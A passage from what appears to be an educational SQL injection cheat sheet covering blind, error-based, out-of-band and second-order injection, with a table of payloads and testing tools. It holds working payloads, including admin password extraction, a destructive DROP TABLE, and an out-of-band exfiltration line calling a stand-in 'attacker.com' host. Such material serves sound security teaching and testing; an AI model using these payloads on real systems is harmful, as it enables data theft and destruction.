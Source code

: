 * No error or output — attacker deduces data via **true/false or timing**

Example (Boolean-based):

' AND 1=1 \--   → returns true  
' AND 1=2 \--   → returns false  
Example (Time-based): ' OR IF(1=1, SLEEP(5), 0\) –

## 3\. Error-Based SQL Injection

* Application leaks SQL error details

Input: ' OR 1=CONVERT(int, (SELECT @@version)) \--

Reveals DB version in error message.

## 4\. Out-of-Band SQLi

* Uses external channel (DNS, HTTP, email) to exfiltrate data

Example: SELECT LOAD\_FILE('\\\\\\\\attacker.com\\\\payload');

## 5\. Second-Order SQLi

* Injection payload stored in DB and executed later

Example:

* Injects payload into profile → later executed on search page.

# Common SQL Injection Payloads

| Payload | Use |
| :---- | :---- |
| ' OR 1=1 \-- | Bypass login |
| ' UNION SELECT null, version() \-- | Extract DB version |
| ' AND SLEEP(5) \-- | Blind (Time-based) |
| ' AND 1=CAST((SELECT password FROM users WHERE username='admin') AS INT) \-- | Blind extraction |
| '; DROP TABLE users; \-- | Delete table (destructive) |

# Testing 

| Tool | Method |
| :---- | :---- |
|  Burp Suite / ZAP | Manual request tampering |
|  SQLMap | Auto-detects and exploits SQLi |
|  Error Analysis | Look for SQL error messages |
|  Fuzzing | Try ', ", \--, \#, /\*, ;, OR 1=1, etc. |
|  Boolean & Time-based Tests | Observe differences in response or delay |
